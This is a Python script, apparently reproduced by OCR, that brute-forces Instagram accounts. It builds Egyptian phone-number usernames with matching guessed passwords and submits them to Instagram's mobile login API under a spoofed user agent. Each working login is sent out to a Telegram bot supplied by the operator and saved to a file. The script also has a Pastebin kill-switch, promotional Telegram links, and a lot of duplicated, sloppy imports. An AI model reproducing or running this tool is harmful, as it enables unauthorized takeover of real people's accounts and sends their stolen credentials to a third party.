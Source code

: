 import os
import pyfiglet, requests, os, sys, time
import requests, os, random, json, threading, secrets, uuid, pyfiglet, threading, sys, time
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from random import randint
from user_agent import generate_user_agent
import sys as n
import time as mm
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from user_agent import generate_user_agent
import pyfiglet
import os
import random
import uuid
import requests
import string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests
import os
import random
import json
import threading
import secrets,uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
try:
    import requests
except ImportError:
    os.system('pip install requests')
    import requests
    clear()
try:
    from colored import fg
except ImportError:
    os.system('pip install colored')
    from colored import fg
    clear()
try:
    from uuid import uuid4
except ImportError:
    os.system('pip install uuid')
    from uuid import uuid4
    clear()
try:
    import random
except ImportError:
    os.system('pip install random')
    import random
def close():
    input('- Press Enter To Exit /')
    sys.exit()
try:
    import uuid
except:
    os.system ("pip install uuid")
try:
    from random import *
except:
    os.systeam("pip install random ")
try:
     import string
except:
    os.system("pip install string")
try:
    import requests 
except:
    os.system ("pip install requests ")
try:
    from user_agent import generate_user_agent
except:
    os.system("pip install user_agent ")
try:
    from datetime import datetime
except:
    os.system("pip install datetime ")
try:
    import time
except:
    os.system("pip install time")
os.system("clear")
try:
    import pyfiglet
except:
    os.system("pip install pyfiglet")
os.system("clear")
import pyfiglet
import os
from time import sleep
import webbrowser
import os, sys, requests

Alosh ='tuiks'

P = '\033[2;35m'
J = '\034[1;31m'
I = '\033[2;36m'
H = '\033[2;35m'
A = '\033[2;36m'
E = '\033[1;31m'
Z = '\033[2;31m'
E = '\033[1;31m'
G = '\033[1;32m'
S = '\033[1;33m'

import user_agent, random, uuid, requests, string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
import pyfiglet, webbrowser
sleep(0.1)
Z = '\033[1;31m' #Ø§Ø­Ù…Ø±
X = '\033[1;33m' #Ø§ØµÙØ±
Z1 = '\033[2;31m' #Ø§Ø­Ù…Ø± Ø«Ø§Ù†ÙŠ
F = '\033[2;32m' #Ø§Ø®Ø¶Ø±
A = '\033[2;39m' #Ø§Ø²Ø±Ù‚
C = '\033[2;35m' #ÙˆØ±Ø¯ÙŠ
B = '\033[2;36m'#Ø³Ù…Ø§Ø¦ÙŠ
pess = input(F + ' Enter Your Password: ')
webbrowser.open('https://t.me/TuIks1/1516')
if pess == Alosh:
    print(B+ ' Success Password ')
    time.sleep(2)
    os.system('clear')
else:
    exit(Z + ' Worng Password ')
alosh = """
\033[1;31m          _    _           _     
\033[1;33m         / \  | | ___  ___| |__ 
\033[2;36m        / _ \ | |/ _ \/ __| '_ \ 
\033[2;32m       / ___ \| | (_) \__ \ | | |
\033[1;31m      /_/   \_\_|\___/|___/_| |_| 
\033[1;33m----------------------------â€-------------------------
\033[1;31m[\033[2;32m*\033[1;31m]\033[2;32mTelegram\033[1;33m:\033[2;36m@tuiks1
\033[1;31m[\033[2;32m*\033[1;31m]\033[2;32mBY\033[1;33m:\033[1;36m@tuikss
\033[1;33m----------------------------â€-------------------------
"""
aa = 0
zz = 0
ib = 0

print (alosh)
print (''+Z+'['+F+'*'+Z+']'+X+'  Ø§Ø¯Ø®Ù„ ØªÙˆÙƒÙ† Ø§Ù„ØªÙŠÙ„ÙƒØ±Ø§Ù… ')
tok =  input(F+'     =>  '+B)
os.system('clear')
webbrowser.open('https://t.me/TuIks1')
print (alosh)
print (''+Z+'['+F+'*'+Z+']'+X+'Ø§Ø¯Ø®Ù„ Ø§ÙŠØ¯ÙŠ Ø­Ø³Ø§Ø¨Ùƒ ') 
ID =  input(F+'     =>  '+B)
os.system('clear')
print (alosh)
w = 'https://pastebin.com/R0msdDfe'
import time
t = time.localtime()
current_time = time.strftime("%H:%M:%S", t)
sleep(2)
rss = requests.get(w).text
if 'TTH' in rss:
    sleep(0.1)
    r = requests.Session()
    user = '0123456789'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+20122' + us
        password = '0122' + us
        
        url = 'https://i.instagram.com/api/v1/accounts/login/'          
        headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*', 
         'Cookie':'missing', 
         'Accept-Encoding':'gzip, deflate', 
         'Accept-Language':'en-US', 
         'X-IG-Capabilities':'3brTvw==', 
         'X-IG-Connection-Type':'WIFI', 
         'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
         'Host':'i.instagram.com'}
        uid = str(uuid4())
        data = {'uuid':uid,  'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
        if 'logged_in_user' in req_login.text:
            zz += 1
            print(G + 'username ==> : ' + username + ': password ==> : ' + password)
            tlg =(f'''https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=âœ….ð’‰ð’Šð’• [{zz}]
= = = = = = = = = = = = =
.ðŸ‘®â€â™€.ð’‘ð’‚ð’”ð’” [{password}]
.ðŸ“§.ð’†ð’Žð’‚ð’Šð’ [{username}]
.ðŸ•¡.ð’•ð’Šð’Žð’† [{current_time}]
= = = = = = = = = = = = =
ð’ƒð’š:-  @tuiks1 :- @tuikss
''')
            i = requests.post(tlg)
            with open('tuiksss.txt', 'a') as (tuiks1):
                tuiks1.write(' [-] UserName : {} \n [-] Passowrd : {} \n\n'.format(username,password))
        elif '"message":"challenge_required","challenge"' in req_login.text:
            ib+=1
            print (S+'username S ==> : '+username+': password ==> : '+password)
        else:
            print (E+'username ==> : '+username+': password ==> : '+password)
            aa+=1
else:
            print(Z + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
